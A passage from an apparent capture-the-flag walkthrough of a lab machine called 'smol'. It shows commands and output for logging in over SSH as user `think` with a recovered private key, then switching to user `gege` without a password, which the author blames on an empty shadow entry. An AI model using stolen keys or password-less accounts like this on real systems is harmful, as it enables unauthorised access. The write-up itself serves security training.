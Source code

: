 
Saved the `id_rsa` file on the analyst system and granted it the right permissions which led to a shell as user `think`

```bash
❯ nano id_rsa

❯ chmod 600 id_rsa

❯ ssh think@10.10.206.34 -i id_rsa
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 31 Mar 2025 04:46:57 PM UTC

  System load:  0.0               Processes:             147
  Usage of /:   56.9% of 9.75GB   Users logged in:       0
  Memory usage: 22%               IPv4 address for ens5: 10.10.206.34
  Swap usage:   0%

think@smol:~$ whoami
think
think@smol:~$ 
```



After a while the analyst figured out a old wordpress file in the user `gege` home folder, however this file can only go through analysis either by the user `root` or by the user `gege`. After series of trouble the analyst decided to switch user to `gege`, which in shocked worked without a password.

This is probably because user `gege` has  an Empty Password set in the `/etc/shadow` file.


```bash
think@smol:/home/gege$ ls
wordpress.old.zip
think@smol:/home/gege$ pwd
/home/gege
think@smol:/home/gege$ ls -la
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 6 root root         4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
think@smol:/home/gege$ su gege
gege@smol:~$ 
```
